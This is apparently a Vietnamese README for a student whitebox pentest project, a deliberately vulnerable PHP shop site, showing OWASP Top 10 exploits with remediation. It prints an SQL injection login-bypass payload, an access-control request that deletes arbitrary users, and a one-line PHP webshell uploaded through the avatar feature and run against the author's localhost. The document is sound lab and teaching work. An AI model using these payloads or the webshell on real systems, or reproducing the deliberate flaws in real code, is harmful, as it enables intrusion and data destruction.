# Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
|  |  |  |

| Cart | Checkout | Profile |
|---|---|---|
|  |  |  |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  |  |  |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQL Injection)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control (IDOR)** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell** | Upload file qua chức năng Avatar| `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
|  |  |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
- Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* |  |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* |  |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* |  |
| **4** | *Payload thay đổi request từ update email sang delete user.* |  |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* |  |


#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  
  | Test |  Check |
  |---|---|
  |  |  |
---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  
```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
  | Check |  Test |
  |---|---|
  |  |  |
### 📌 4. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
HTTP/1.1 200 OK
Server: Apache/2.4.62 (Win64) OpenSSL/3.0.15 PHP/8.3.16
...
desktop-4kbnl3q\ducson
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 5. Ảnh Chụp Màn Hình (PoC Visuals)
| Step | Description | Images |
|------|------------|--------|
| 1 | Kiểm tra webshell có thể tải lên hay không. |  |
| 2 | Tải lên file webshell `pls.php`. |  |
| 3 | Truy cập webshell qua trình duyệt và gửi lệnh. |  |
| 4 | Thực thi lệnh từ xa và nhận kết quả. |  |
| 5 | Response hiển thị kết quả `apache`, chứng minh RCE thành công. |  |
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
